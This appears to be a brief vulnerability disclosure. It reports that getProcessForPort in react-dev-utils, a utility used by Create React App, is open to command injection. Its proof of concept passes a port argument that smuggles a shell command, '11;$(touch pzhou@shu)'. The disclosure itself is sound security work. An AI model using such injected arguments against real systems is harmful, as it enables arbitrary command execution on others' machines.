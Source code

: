 ## description
react-dev-utils includes some utilities used by Create React App. 

The function getProcessForPort in react-dev-utils is vulnerable to command injection.

## PoC
Create a .js file with the content below and run it, then the file pzhou@shu can be illegally created.

var getProcessForPort = require('react-dev-utils/getProcessForPort');

getProcessForPort('11;$(touch pzhou@shu)');
